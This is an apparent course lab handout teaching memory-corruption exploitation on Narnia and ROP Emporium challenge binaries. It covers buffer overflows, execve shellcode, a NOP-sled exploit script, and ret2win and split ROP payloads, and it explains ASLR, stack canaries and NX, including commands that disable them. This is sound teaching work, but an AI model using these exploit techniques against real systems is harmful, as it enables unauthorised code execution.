

With the prevalence of compiled C code in all of the computing systems we operate, it is imperative that one of C's biggest issues, memory corruption vulnerabilities, is addressed properly. There are a multitude of attack vectors for corrupting memory in C programs and a multitude of defenses.
In this lab, you will be working with some of the simpler ones using modifications to initial programs in several popular binary exploitation CTFs: Overthewire.org's Narnia and ROP Emporium.
To begin with, bring up the Kali VM.
The simplest memory corruption vector is a buffer overflow. Below is a slightly modified version of the initial level of Narnia: narnia0.c. It contains a long integer (val) and a 20-byte buffer (buf) that are local variables stored on the stack. The goal of the level is to overflow buf and corrupt val to contain a specific value 0xdeadbeef. When this happens, the program invokes a shell (/bin/sh). When played on overthewire.org, the program runs with the setuid bit set to allow it to become the narnia1 user, giving you access to the narnia1 password. As the source code shows, the program has a buffer overflow vulnerability in that the scanf attempts to read 24 bytes into a 20 byte buffer, allowing one to overflow it. On your Kali VM, create the file.
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
int main(){
long val=0x41414141;
char buf[20];
printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
printf("Here is your chance: ");
scanf("%24s",&buf);
printf("buf: %s\n",buf);
printf("val: 0x%08x\n",val);
if(val==0xdeadbeef)
system("/bin/sh");
else {
printf("WAY OFF!!!!\n");
exit(1);
}
return 0;
}Then, compile the file using 32-bit x86. Note that we choose 32-bit x86 due to its simplicity and that our Kali VM has the appropriate 32-bit libraries installed. The attacks work similarly on other architectures.
gcc -m32 -o narnia0 narnia0.c
Execute the program binary after compilation.
./narnia0When prompted, enter a single character. The program prints out the character and shows val is unchanged.
Next, execute the program again and enter in the following string as input.
ABCDEFGHIJKLMNOPQRSTUVWXYZval been changed to? Which 4 ASCII letters from the input does this represent?We need to change those 4 letters so that it can read 0xdeadbeef, but we have an issue. We enter input from the keyboard using 7-bit ASCII, but all of the bytes in the pattern we wish to input have the most-significant bit set. One way to send binary input to a program is to use echo -e, which allows us to specify raw bytes via \x that we can then pipe into our program. For example, the snippet below will emit 4 raw bytes (aa, bb, cc, dd) that can then be sent via a pipe to standard input of narnia0.
echo -e "\xaa\xbb\xcc\xdd"
Sending raw bytes by piping the output of the echo to narnia0 solves one issue, but creates another. Once the echo completes, it tears down the pipe, causing the standard input of the program at the end of the pipe to receive an EOF. As the successful exploit invokes an interactive shell, this EOF terminates the shell immediately. To send the input while keeping the pipe open, we can simply run a cat command with no arguments to tie the standard input and output back to our terminal.
Using this, fill in the command below with the appropriate values to obtain an interactive /bin/sh session via the narnia0 binary. Note that endianness requires you to arrange the bytes of 0xdeadbeef in the input in a particular order.
(echo -e "ABCD..."; cat ) | ./narnia0
ls, then take a screenshot of the successful execution.In the previous level, we corrupted memory to execute code to invoke a shell that was already in the program itself. The idea of shellcode is to inject binary code into the victim process and force the program to execute it. There are an immense number of snippets for doing so across any CPU architecture you may find via Shell Storm (https://shell-storm.org/shellcode/).
To begin with, create the file below on your Kali VM that has been derived from the narnia1 level. As the code shows, it pauses to get a single character of input from the terminal, before pulling data from the environment variable EGG into a buffer and then executing it. Note that environment variables are placed onto the stack within a process's memory space by the system loader upon invocation.
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
int main(){
int (*ret)();
int i = getchar();
if(getenv("EGG")==NULL){
printf("Give me something to execute at the env-variable EGG\n");
exit(1);
}
printf("Trying to execute EGG!\n");
ret = (int (*)())getenv("EGG");
ret();
return 0;
}Execution of binary code in environment variables is not exactly safe nor likely to happen in real-life, but the exercise allows us to demonstrate working shellcode and the NoExecute (NX) defense against code injection onto the stack that operating systems now support. gcc enables the NX protection on the stack by default. However, it also provides the -z execstack flag to disable the protection. The setting is passed to the loader which applies the appropriate permissions to the stack segments in memory. Compile two versions of the level.
First, compile a version that allows execution from the stack.
gcc -m32 -z execstack -o narnia1_exec narnia1.cThen, compile the default version that disallows execution from the stack.
gcc -m32 -o narnia1_noexec narnia1.cWe need to set the environment variable EGG to contain binary code that, when executed, will give us an interactive shell as in the previous level. One of the more compact examples of shellcode that does so is shown below both in binary and in disassembled form with comments.
31 c0 xor %eax,%eax // Put "/bin/sh" on stack
50 push %eax
68 2f 2f 73 68 push $0x68732f2f
68 2f 62 69 6e push $0x6e69622f
89 e3 mov %esp,%ebx // Point %ebx to "/bin/sh"
89 c1 mov %eax,%ecx // Null out other regs
89 c2 mov %eax,%edx
b0 0b mov $0xb,%al // Syscall execve (11)
cd 80 int $0x80 // Call execve("/bin/sh",0,0)
90 nop // Pad to multiple of 4
As the code shows, the arguments for the execve system call are crafted onto the stack, before the call is invoked. In the Kali VM terminal, set the EGG environment variable to the shellcode.
export EGG=`echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x90"`
We will now run our two compiled versions of the level to show how data execution prevention (DEP) support works. DEP implements page protections to prevent execution from certain segments of memory via its "NoExecute" or "NX" settings. To begin with, launch the version that allows execution from the stack (narnia1_exec) and put the process in the background. The program will pause waiting keyboard input, allowing us to examine the process's memory space via /proc. When placed in the background, the shell returns the PID of the backgrounded process. Perform an egrep of the processes memory map looking for the range of addresses mapped to the stack and their permissions.
./narnia1_exec & egrep stack /proc/<PID>/maps
Resume the process by typing fg, then enter a key to execute the EGG.
ls, then take a screenshot of the successful execution.Next, launch the version that disallows execution from the stack (narnia1_noexec), repeating the same process above to examine the memory mapped range for its stack.
./narnia1_noexec & egrep stack /proc/<PID>/maps
Resume the process by typing fg, then enter a key to execute the EGG. Note that the EGG address is in the stack and that it executes the binary payload, giving you a shell.
There are several problems when attempting to leverage a buffer overflow vulnerability to inject and execute code. One problem is finding where in virtual memory the buffer being injected into is located. Once found, another problem is attempting to hijack the program counter (e.g. %eip) to point to the code. To gain an understanding of these problems, we'll use a modified version of the narnia2 level as shown below. In it, a function callme() takes the string passed into the program (e.g. argv1) and unsafely copies it into an internal 128-byte buffer (buf). A classical buffer overflow attack would be to write shellcode into buf, then overflow buf and write over the return address for callme() with the address of the shellcode stored in buf. As part of the level code, the address of buf and of the function printf is printed.
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int callme(char * argv1) {
char buf[128];
printf("buf is %p\n", buf);
strcpy(buf,argv1);
printf("You sent: %s\n", buf);
return 0;
}
int main(int argc, char * argv[]){
if (argc == 2) {
callme(argv[1]);
}
}Compile the level.
gcc -m32 -o narnia2 narnia2.c
The need to find the address of the buffer that code is injected into motivates the use of address space layout randomization (ASLR). On Linux, ASLR is enabled by default, but it can also be configured system-wide. To view its current setting on the Kali VM, perform the following command to output the kernel's setting. It should be set to 1 (randomized stack and shared memory) or 2 (same as 1 but also randomized data)..
cat /proc/sys/kernel/randomize_va_space
Run the level using your OdinID as the argument 2 times.
./narnia2 <OdinID>
As shown in the output, the address of buf differs each time. Such randomization makes it difficult to guess where either is located a priori. Run the program 5 times and track the lowest and highest address that is allocated for each. Answer the questions below for your lab notebook.
buf (e.g. the stack) appear to be random?An adversary would need to perform a brute-force attack to guess the appropriate address in order to be successful.
We can turn off randomization on the system by clearing the kernel flag. Use the command below to do so.
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
Run the narnia2 level command again using your OdinID multiple times.
buf is located.Once the address of the buffer that code is injected into is found, the other problem is getting the program counter %eip to jump to it. Typically, in a buffer overflow, you overwrite the return address of a function call and then when the function returns, it will return to the address you have written into it. Stack canaries attempt to prevent this by placing a special random value onto the stack when entering the function and then checking that the value has not been modified before the return is executed. By placing this value in between a function's local variables and the return address of the function, the system can detect when buffers are overflowed. The code for implementing stack canaries is added by the compiler and is configurable via a flag. Using this flag, compile two versions of the narnia2 code.
gcc -fno-stack-protector -no-pie -m32 -o narnia2_nocanary narnia2.c gcc -fstack-protector -no-pie -m32 -o narnia2_canary narnia2.c
Then, examine the differences in the assembly code for the callme() function in each.
objdump --disassemble=callme --no-addresses narnia2_nocanary > nocanary.txt objdump --disassemble=callme --no-addresses narnia2_canary > canary.txt diff nocanary.txt canary.txt
We'll now execute each version using an argument that leverages the buffer overflow. Execute the commands below. The argument for each is the output of a small Python script that outputs 144 'A' characters. This is enough to fill buf and overwrite the return address of callme().
./narnia2_canary `python3 -c "print('A'*144)"`
./narnia2_nocanary `python3 -c "print('A'*144)"`Our tour through binary exploitation and its defenses is a good example of how defense-in-depth can be effective in preventing exploitation. To actually get code execution, the adversary must:
All we need to do as defenders is ensure the counter-measures have been deployed. Unfortunately, in many situations, such as on medical IoT devices, they are not.
To exploit this vulnerable program to obtain a shell, we'll need to turn off all protections. First, compile the program without stack canaries and without data execution prevention enabled on the stack.
gcc -fno-stack-protector -no-pie -z execstack -m32 -o narnia2_noprotect narnia2.c
Then, ensure ASLR has been disabled.
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
We'll now exploit the program to obtain a shell. While we have disabled address space randomization, the location of the buffer we're injecting into is sensitive to the run-time arguments placed on the stack. The size of the buffer is 128 bytes so we can probe the binary with a payload large enough to fill the buffer and reach the return address. The program will then give us the address of the buffer. For programs that do not conveniently give us the buffer's address, we would need to examine things in a debugger. Run the command below twice to find the address of the buffer, ensuring that ASLR has been turned off.
./narnia2_noprotect `python3 -c "print('A'*144)"`Because the arguments for the program are also stored on the stack, repeating the command using different sizes of input will shift the location of the buffer. Run the above command multiple times with different sizes to see the address of buf shift..
We can now craft our exploit payload. Exploit payloads typically contain a NOP sled, followed by shellcode, followed by the address of the buffer that will contain the payload. The NOP sled allows return addresses pointing anywhere within the sled to lead to execution of the shellcode in case our address calculations are inaccurate. Spamming the address of the buffer at the end, ensures we will likely hit the location of the return address. The address must be aligned on a 4-byte boundary.
Like the prior Python code, the script below outputs 144 bytes consisting of 88 NOPs (0x90 in 32-bit x86), the 24-byte shellcode from the previous level, and 8 copies of the address to return to in little-endian format. The script assumes the buffer is located at 0xffffd460 on the stack. You will need to change this to the address of the buffer you found above instead.
import sys
shell = bytes.fromhex(
'90'*88+
'31c050682f2f7368682f62696e89e389c189c2b00bcd8090'+
'60d4ffff'*8
)
sys.stdout.buffer.write(shell)Run the exploit.
./narnia2_noprotect `python3 shell.py`ls, then take a screenshot of the successful execution.As a result of DEP, exploits that inject code onto the stack and attempt to execute it are no longer possible. However, it is still possible to hijack the execution of a program. With Return-oriented Programming (ROP), the instructions to execute are already resident in the program and the adversary simply selects a sequence of them to run. By tricking the program into executing code and functions that are not part of intended behavior, the adversary can perform the exploitation. Note that the technique is referred to as "Return-to-Libc" when using instructions resident in the standard C library. In terms of counter-measures against this attack, stack canaries and ASLR make ROP more difficult to perform.
The ROP Emporium set of challenges provides a scaffolded set of binaries that we can use to learn the basics of the ROP technique. The initial level is ret2win. On the Kali VM, begin by downloading the 32-bit x86 level binary, unpacking it, and executing the level binary to read the instructions.
wget https://ropemporium.com/binary/ret2win32.zip
unzip ret2win32.zip
./ret2win32The goal of each challenge is to get the program to read the flag.txt file and print it. For this level, the program has a 32 byte buffer but reads up to 56 bytes into it, causing a buffer overflow on the stack.
Because we are not given the source code for these levels, we'll need to use binary analysis tools to understand how to exploit it. Start by using the nm utility to list the symbols in the ret2win32 binary, then using egrep to filter out those that are functions.
nm ret2win32| egrep " [Tt] "
There are 2 functions of particular interest: pwnme() and ret2win(). Use objdump to disassemble pwnme().
objdump --disassemble=pwnme ret2win32
The disassembly shows that the function does a memset to 0 of a 32-byte (0x20) area of memory, outputs a variety of strings using puts(), does a read of up to 56 bytes (0x38) into the memory area, then outputs a final string using puts().
puts()The arguments are addresses to static strings stored in the program's read-only memory section. Use objdump again to find the strings and their corresponding locations.
objdump -s ret2win32 -j .rodata
As the analysis shows, the function implements the main function of the level, but does not have the ability to emit flag.txt. Figuring this out with objdump is a multi-step process. Modern disassemblers can automatically cross-reference embedded strings to allow one to perform the analysis with one step. radare2 is one popular alternative for Linux. Use the following command to have radare2 perform the disassembly of pwnme() and its embedded arguments.
radare2 -A -q -c pdf@sym.pwnme ret2win32
Scroll through the output.
puts() in pwnme() as disassembled by radare2 showing its cross-referenced stringFinally, examine the ret2win function in radare2.
radare2 -A -q -c pdf@sym.ret2win ret2win32
flag.txt if executed.Make a note of the address of the first one. We will look to have the program return to its location when the buffer is overflowed.
The goal of the level is for you to overflow the buffer in pwnme() and have execution return to the instructions that emit flag.txt. We could either return to ret2win() or to the instructions we made a note of in the previous step. Using the strategy previously deployed for narnia2, we can spam the address we wish to return to into the buffer knowing that one of them will hit the location of the return address for pwnme() on the stack, thus causing it to return to the code to emit the flag rather than the original caller.
Create a Python program to output the address from the earlier step repeatedly in order to fill up 56 bytes. For a 32-bit address, this would be 14 copies of the address. Note that the address must be in little-endian format.
import sys
rop = bytes.fromhex('xxyy0408'*14)
sys.stdout.buffer.write(rop)Then, run the script and pipe its output to the level binary.
python3 ret2win.py | ./ret2win32In the previous level, we were conveniently given instructions that pushed the command we wanted to execute onto the stack ("/bin/cat flag.txt") and then called system() to invoke it. In this level, while there is a call to system() in the program, the parameter passed to it will not emit the flag.
Begin by downloading the 32-bit x86 level binary, unpacking it, and executing the level binary to read the instructions.
wget https://ropemporium.com/binary/split32.zip
unzip split32.zip
./split32The level is set-up similarly to ret2win with the pwnme() function doing a 96-byte read on a 32-byte buffer as shown via its disassembly:
radare2 -A -q -c pdf@sym.pwnme split32
A function helpfully named as usefulFunction is also provided. Disassemble and examine it as well.
radare2 -A -q -c pdf@sym.usefulFunction split32
pwnme() to return to this function?call to system()call to system() instead of the call that pushes the string address?As a result of controlling the stack, an adversary can prepare an arbitrary argument list onto the stack just before injecting the return address pointing to a call instruction.
Using objdump, search the binary for interesting strings located in its data sections.
objdump -s split32 -j .data -j .rodata
You can also do so by using radare2.
radare2 -A -q -c iz split32
As the output shows, the string we wish to call system() with to emit flag.txt is conveniently stored in program memory. All we need to do is put its address onto the stack as a "parameter" and directly return to the call instruction used to invoke system().
We now have the two addresses we need: the address of an instruction that invokes a call to system() and the address of the string we want to send as a parameter to the call. If we can get the stack to the state below when returning from pwnme(), we will successfully exploit the level.

We will again create a Python program to output these addresses as pairs repeatedly in order to fill up the 96 bytes. For 32-bit addresses, this would be 12 pairs of addresses in little-endian format.
import sys
rop = bytes.fromhex('xxxx0408yyyy0408'*12)
sys.stdout.buffer.write(rop)Then, run the script and pipe its output to the level binary.
python3 split.py | ./split32This completes our brief introduction to binary exploitation via memory corruption. There are many other defenses and counter-measures against defenses to explore as well as other data structures besides the stack to attack. Visit the CTFs below if you find this topic interesting and want to learn more: